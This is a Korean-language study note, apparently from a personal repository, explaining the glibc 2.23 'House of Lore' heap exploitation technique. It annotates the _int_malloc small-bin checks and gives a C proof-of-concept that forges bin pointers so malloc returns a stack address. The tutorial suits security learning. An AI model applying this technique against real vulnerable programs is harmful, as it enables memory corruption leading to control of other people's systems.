 # Heap Exploit - House of Lore

## 요약

기법을 크게 요약하면  small bin을 재할당 받는 조건을 우회하여 stack 등 원하는 위치에 heap chunk를 할당받는 것.

일단 ubuntu 16.04에서만 된다(glibc 2.23). 그 이상 버전 부터는 안됨... 이유는... 코드를 뜯어봐야 압니다...

## small bin 할당 조건?

```C
/*
_int_malloc 소스코드
[변수 정리]
nb : malloc 인자로 요청받은 동적 할당할 size값
av : arena의 주소 (main_arena 또는 thread_arena)
victim : 할당할 대상(다른이름으로는 위치)의 주소
bin : small bin의 관리 대상인 해제된 청크.
bk : backward pointer : 같은 bin내에서 현재 청크 다음에 해제된 청크의 주소
fd : forward pointer : 같은 bin내에서 현재 청크 이전에 해제된 청크의 주소
*/
if (in_smallbin_range (nb))								// [A]
{
	idx = smallbin_index (nb);							// small bins에서 nb값과 같은 size를 가지는 bin의 index를 가져옴
	bin = bin_at (av, idx);								// arena에서 index값을 참고해 bin의 주소를 가져옴. 
    													// 이때, header의 주소를 포함시킨 주소를 가져오기 위해 (bin의 주소-0x10)을 함.
    													// (0x10은 x64 기준, 0x86은 0x8을 뻄)
	if ((victim = last (bin)) != bin)					// [B]	// last(bin) : #define last(b)      ((b)->bk)
        														// small bin은 FIFO이기 떄문에 bin 다음에 해제된 청크가 
        														// 할당 대상인 victim이 된다는 것은 사실상 bin은 이미 할당되어 
        														// small bin에서 빠진 청크라는 것이다.
	{
		if (victim == 0) /* initialization check */
		    malloc_consolidate (av);					// victim의 값이 0이면 arena를 초기화 시켜줌.
        												// malloc_consolidate()는 그냥 arena가 초기화 되어있는 경우, fast bin을 합쳐서 
        												// unsorted bin에 넣고, arena가 초기되어있지 않는 경우에는 arena를 초기화 시켜주는
        												// 함수입니다... 근데 여기서 솔직히 정확히 뭘 초기화 시킨다는건지 모르겠습니다...
		else
	    {
			bck = victim->bk;
			if (__glibc_unlikely (bck->fd != victim))	// [C]
	        {
				errstr = "malloc(): smallbin double linked list corrupted";
				goto errout;
	        }
			set_inuse_bit_at_offset (victim, nb);
			bin->bk = bck;
			bck->fd = bin;
	        ...
	    }
	}
}
```

small bin을 할당할때는 아래와 같은 조건이 존재함.

- [A] : 할당할 chunk가 small bin size인가?
- [B] : victim(bin->bk)이 bin은 아닌가?
  - bin->bk == bin이라면 "malloc() : memory curruption" 에러 출력 후 바이너리 종료.  같다는 건 연속으로 double free 되었다는 뜻이기 때문임.
- [C] : victim chunk 다음에 해제된 chunk의 fd->bk가 victim chunk가 맞는가?

이 3가지 조건을 우회해주면 small bin으로 어디든 할당이 가능하다... (물론 쓰기 권한이 있다는 가정하에)

(참고: small bin은 처음에는 unsorted bin에 있다가, 아무 size의 chunk나 할당이 되면(재할당 제외) 그때, unsorted bin에 있던 freed chunk가 small bin으로 넘어가게 된다.)

## 실습 (설명은 주석으로...)

```C
// gcc -o lore1 lore1.c // 코드 출처 : dreamhack.io
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main()
{
    uint64_t  *ptr1, *ptr2, *ptr3, *top;
    uint64_t *fake1, *fake2;
    uint64_t fake_chunk[4];
    uint64_t fake_chunk2[3];
    
    fprintf(stderr, "fake_chunk: %p\n", fake_chunk);
    fprintf(stderr, "fake_chunk2: %p\n", fake_chunk2);
    
    // 초기 설정
    ptr1 = malloc(0x100);
    ptr2 = malloc(0x100);
    ptr3 = malloc(0x100);
    fprintf(stderr, "ptr1: %p\n", ptr1);
    fprintf(stderr, "ptr2: %p\n", ptr2);
    fprintf(stderr, "ptr3: %p\n", ptr3);
    free(ptr1);
    free(ptr3);
    
    top = malloc(0x110);					// ptr1을 unsorted bin -> small bin으로 보냄
    
    // 첫번째 small bin을 ptr1에 성공적으로 할당시키기 + 다음 small bin node로 fake chunk 추가
    fake_chunk[0] = 0;						// fake prev_size
    fake_chunk[1] = 0x111;					// fake_chunk의 size값 설정
    fake_chunk[2] = (uint64_t)ptr1 - 0x10;	// -0x10을 하는 이유는 청크의 헤더를 포함한 주소가 필요하기 때문이다.
    ptr1[1] = (uint64_t)&fake_chunk;		// ptr1의 bk에 &fake_chunk 저장
    
    // 첫번째 small bin인 ptr1에 첫번째 할당. 이를 통해 다음 small bin 할당 우선 순위는 fake_chunk가 됨.
    fake1 = malloc(0x100); 					
    
    // fake chunk에 할당하기 위해 bck->fd 우회
    fake_chunk[3] = (uint64_t)&fake_chunk2;	// fake_chunk의 bk에 fake_chunk2의 주소를 저장.
    fake_chunk2[2] = (uint64_t)&fake_chunk;	// fake_chunk2의 fd에 해당하는 부분에 fake_chunk의 주소를 저장.
    
    // stack에 있는 fake chunk에 할당
    fake2 = malloc(0x100); //victim malloc2	
    
    fprintf(stderr, "fake1: %p\n", fake1);
    fprintf(stderr, "fake2: %p\n", fake2);
    
    return 0;
}
```

![Alt_text](./lore1_result.png "lore1 result")

위의 실행 결과의 fake2를 보면 stack에 위치한 fake_chunk가 잘 할당되어 있는 것을 확인 할 수 있다.



## 추가로 알게된 것

### fprintf(stderr, "...", ...)와 printf의 차이

printf는 버퍼를 사용하기 때문에 버퍼를 비우기 전까지는 값을 볼 수 없지만, fprintf(stderr, "...", ...)는 버퍼를 사용하지 않아 바로 출력이 가능하다.



## Reference

[Heap Allocator Exploit](https://dreamhack.io/lecture/courses/16) - dreamhack.io 강의 - 코드들이랑 설명 요약이 잘되어있슴.



예전에 했던건데 오랜만에 보니까 기억이 안나서 정리합니다.